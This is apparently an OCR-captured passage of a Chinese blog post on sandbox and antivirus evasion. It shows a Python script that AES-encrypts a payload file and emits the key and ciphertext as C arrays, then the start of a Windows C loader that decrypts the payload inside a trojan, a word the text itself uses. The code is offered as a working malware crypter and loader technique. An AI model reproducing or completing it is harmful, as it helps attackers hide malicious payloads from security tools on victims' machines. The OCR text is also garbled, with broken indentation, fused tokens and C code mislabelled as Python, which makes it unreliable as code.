```python
return ciphertext,key


def printResult(key, ciphertext):
print('char AESkey[] = { 0x'+', 0x'.join(hex(x)[2:]for x in KEY)+' };')
print('unsigned char payload[] = { 0x'+', 0x'.join(hex(x)[2:]for x in ciphertext)+' };')

try:
    file = open(sys.argv[1],'rb')
    content = file.read()
except:
print('Usage: .\AES_cryptor.py PAYLOAD_FILE')
    sys.exit()


KEY = urandom(16)
ciphertext, key =AESencrypt(content, KEY)

printResult(KEY,ciphertext)

```
	![沙箱4](./img/post_img/240901/sx4.png)
- 在木马里写入aes揭秘脚本即可
```python

#include <windows.h>
#include<string.h>
#include<stdlib.h>
#include<stdio.h>
#include<wincrypt.h>
#include<shlobj.h>
#pragma comment(lib,'crypt32.lib')
#pragma comment(lib,'advapi32.lib')

void aes(char* code, DWORD codeLen,char* key, DWORD keyLen){
    HCRYPTPROV hProv;
    HCRYPTHASH hHash;
    HCRYPTKEY hKey;

if(!CryptAcquireContextW(&hProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFYCONTEXT)){
return;
}
if(!CryptCreateHash(hProv, CALG_SHA_256,0,0,&hHash)){
return;
}
if(!CryptHashData(hHash,(BYTE*)key, keyLen,0)){
return;
}
if(!CryptDeriveKey(hProv, CALG_AES_256, hHash,0,&hKey)){
return;
}

if(!CryptDecrypt(hKey,(HCRYPTHASH)NULL,0,0,(BYTE*)code,&codeLen)){
return;
}

CryptReleaseContext(hProv,0);
CryptDestroyHash(hHash);
CryptDestroyKey(hKey);
}
int main(int argc,char*argv[]){
unsignedchar key[]={0xed,0x39,0x56,0x67,0xcd,0x62,0xf7,0x91,0x62,0xb,0x85,0x53,0x9b,0x17,0xae,0xc9};
```